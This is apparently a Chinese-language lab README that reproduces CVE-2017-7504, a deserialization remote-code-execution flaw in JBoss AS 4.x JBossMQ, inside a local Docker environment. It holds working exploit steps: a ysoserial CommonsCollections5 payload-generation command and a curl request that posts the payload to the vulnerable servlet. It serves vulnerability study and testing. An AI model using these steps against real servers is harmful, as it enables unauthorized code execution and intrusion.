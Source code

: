# JBoss 4.x JBossMQ JMS 反序列化漏洞（CVE-2017-7504）

Red Hat JBoss Application Server 是一款基于JavaEE的开源应用服务器。JBoss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

参考：

- https://github.com/joaomatosf/JavaDeserH2HC
- https://www.youtube.com/watch?v=jVMr4eeJ2Po

## 漏洞环境

执行如下命令启动JBoss AS 4.0.5：

```
docker-compose up -d
```

环境启动后，目标为`http://your-ip:8080`。

## 漏洞复现

该漏洞出现在`/jbossmq-httpil/HTTPServerILServlet`请求中，我们借助ysoserial的eCommonsCollections5利用链来复现。生成Payload：

```
java -jar ysoserial-master-30099844c6-1.jar CommonsCollections5 "touch /tmp/success" > 1.ser
```

我们将1.ser文件内容作为POST Body发送：

```
curl http://your-ip:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @1.ser
```

![](1.png)

执行`docker-compose exec jboss bash`进入容器，可见`/tmp/success`已成功创建。
